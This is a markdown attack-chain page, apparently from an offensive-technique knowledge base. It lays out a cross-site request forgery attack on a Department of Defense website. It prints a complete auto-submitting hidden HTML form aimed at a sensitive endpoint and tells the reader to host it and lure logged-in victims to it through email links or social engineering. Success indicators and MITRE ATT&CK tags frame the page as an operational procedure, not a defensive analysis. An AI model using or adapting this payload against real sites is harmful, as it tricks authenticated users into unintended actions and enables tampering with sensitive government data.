

# CSRF Exploitation on DoD Website to Trick Users into Sensitive Actions

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (manual crafting of HTML/JS)

### Target Environment

- Web platform
- Authenticated session on DoD website
- No specific ports or services beyond standard HTTP/HTTPS

### Initial Access Requirements

- User must be authenticated to the target DoD website
- Attacker must host or control a malicious webpage
- Victim must visit the attacker's webpage while logged in

## Detailed Attack Procedures

### Step 1: Craft and Host Malicious Webpage
procedure: [[procedures/Craft-Malicious-Webpage-for-CSRF-Demonstration]]

**Objective**: Create a webpage that automatically submits a forged request to the vulnerable DoD endpoint, tricking the authenticated user into performing an unintended action such as posting or changing confidential information.

**Instructions**: Design an HTML page with a hidden form or JavaScript that targets the vulnerable endpoint on the DoD website. For example, use an auto-submitting form to mimic a legitimate request without CSRF tokens. Host this page on a server accessible to the victim (e.g., via email link or social engineering). When the victim loads the page, the browser will send the request using their active session cookies.

Example HTML structure for the malicious page:

```html
<!DOCTYPE html>
<html>
<head><title>Innocuous Page</title></head>
<body>
    <form id="csrf-form" action="https://dod-website.example/vulnerable-endpoint" method="POST" style="display:none;">
        <input type="hidden" name="confidential_field" value="malicious_value">
        <input type="hidden" name="action" value="update_sensitive_data">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
    <p>Loading...</p>
</body>
</html>
```

Save this as an HTML file and host it (e.g., on a personal server or free hosting service). Lure the victim to visit the URL while they are logged into the DoD site.

**Expected Output**: The victim's browser submits the forged POST request to the DoD endpoint, potentially altering data or redirecting information without their knowledge.

**Success Indicators**:
- Network traffic shows the forged request originating from the malicious page
- Target endpoint processes the request as if initiated by the user
- Sensitive data is modified or exfiltrated as per the form fields

## Attack Chain Summary

### Key Achievements

1. Successfully demonstrated CSRF by crafting a webpage that exploits missing protections
2. Highlighted potential for unauthorized data manipulation on a high-security DoD site
3. Showed impact on confidential information handling

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T12:00:00Z*
